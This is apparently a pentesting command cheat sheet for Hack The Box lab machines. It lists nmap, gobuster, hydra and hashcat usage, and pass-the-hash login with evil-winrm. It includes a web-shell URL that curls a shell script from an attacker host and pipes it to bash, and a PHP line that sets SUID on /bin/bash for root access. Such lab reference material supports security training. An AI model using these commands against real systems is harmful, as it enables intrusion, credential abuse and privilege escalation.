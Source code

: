 ## 🧰 Frequently Used Pentesting Commands

### 🔍 Enumeration
```bash
nmap -sC -sV -p- --min-rate 1000 10.129.54.238 -v
```

### 🌐 Virtual Host & Directory Discovery
```bash
gobuster vhost -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --append-domain
gobuster dir --url http://ignition.htb/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

### ☁️ AWS S3 Bucket Enumeration
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

### 🐚 Shell & Reverse Shell
```bash
nc -nvlp 1337
python3 -m http.server 8000
```

### 🪝 Web-based Reverse Shell Execution
```bash
http://thetoppers.htb/shell.php?cmd=curl%<attacking machine ip>:8000/shell.sh|bash
```

### 🕒 Time Synchronization (Useful for Kerberos/AD)
```bash
ntpdate pool.ntp.org  # Sync system clock with NTP server to avoid time skew issues
```

### 🔐 Evil-WinRM Access
```bash
evil-winrm -i administrator.htb -u administrator -H <NTLM_hash>   # Login using NTLM hash
evil-winrm -i administrator.htb -u administrator -p <password>    # Login using password

### 🔓 Cracking Hashes with Hashcat
```bash
# Auto-detect hash mode (not recommended for reliability)
hashcat -a 0 hash.txt /home/kali/Documents/rockyou.txt

# Specified mode (Apache $apr1$ MD5)
hashcat -m 1600 -a 0 hash.txt /home/kali/Documents/rockyou.txt
```

### ⚡ Privilege Escalation via SUID Bash (PHP RCE)
```php
<?php exec("chmod +s /bin/bash"); ?>
```
Then on the target:
```bash
/bin/bash -p  # Run with elevated privileges if SUID is set
```

### 🛠️ Hydra Brute-Force Examples
```bash
# SSH login
hydra -L usernames.txt -P password.txt 10.129.226.117 ssh 

# HTTP Basic Auth Brute Force
hydra -L users.txt -P passwords.txt 10.129.54.238 http-get /admin
```

### 📂 FTP Enumeration with Anonymous Login
```bash
# Check FTP banner and anonymous login
ftp 10.129.54.238

# If you see code 230:
# 230 Login successful.
# You have access to browse and download/upload if permitted

# Listing files
ls

# Downloading a file
get filename.txt
```

### 🔐 SSH Usage Basics
```bash
# Connect to SSH server
ssh username@10.129.226.117

# Use custom port (if not default 22)
ssh -p 2222 username@10.129.226.117

# Use private key for authentication
ssh -i /path/to/private_key.pem username@10.129.226.117

# Run a single command over SSH
ssh username@10.129.226.117 'ls -la /var/www/html'
```